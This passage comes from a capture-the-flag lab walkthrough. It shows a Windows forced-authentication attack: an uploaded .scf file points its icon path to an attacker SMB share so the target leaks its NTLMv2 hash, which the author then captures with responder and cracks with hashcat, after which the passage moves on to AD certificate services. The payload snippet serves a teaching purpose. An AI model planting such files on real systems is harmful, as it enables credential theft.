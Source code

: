  And after a few minutes the file gets dissapearred , could be that the file is being accessed in some way so this is where windows forced authentication attacks comes in , since we can upoad files , uploading a file with `.scf` extension would allow us to make windows retrieve an icon file from our fake smb share 
 
 https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/
 
 ```bash
[Shell]
Command=2
IconFile=\\10.10.14.58\uwu\uwu.ico
[Taskbar]
Command=ToggleDesktop
 ```
 
 And name the file `@anything.scf` , we used `@` as we want this file to be listed on the top
 
 <img src="https://i.imgur.com/Cepr9jY.png"/>
 
 Now running `responder` to catch NTLMv2 hash
 
 <img src="https://i.imgur.com/GSoXrib.png"/>
 
 <img src="https://i.imgur.com/kSmHSGW.png"/>
 
 Cracking the hash using `hashcat`
 
 <img src="https://i.imgur.com/dyxUFKX.png"/>
 
 <img src="https://i.imgur.com/ocH09vs.png"/>
 
 But we only get access to smb service
 
 <img src="https://i.imgur.com/GEVwvzg.png"/>

Running smbmap again with amanda user we can see that `CertEnroll` has read access rights

<img src="https://i.imgur.com/E14Lq0I.png"/>

Downloading all files from the certEnroll share

<img src="https://i.imgur.com/IlQbPYz.png"/>

The smb share has a description of `Active Directory Services` so could be that we need to deal with certificates , so visiting `certsrv` which is for requesting certificates in an AD 

<img src="https://i.imgur.com/nLgDpn6.png"/>

It asks for credentials but we already have got amanda's creds so we'll just use that

<img src="https://i.imgur.com/65I0RkQ.png"/>

Here we can see that there's an option to request for a certificate

<img src="https://i.imgur.com/OMwpgxN.png"/>
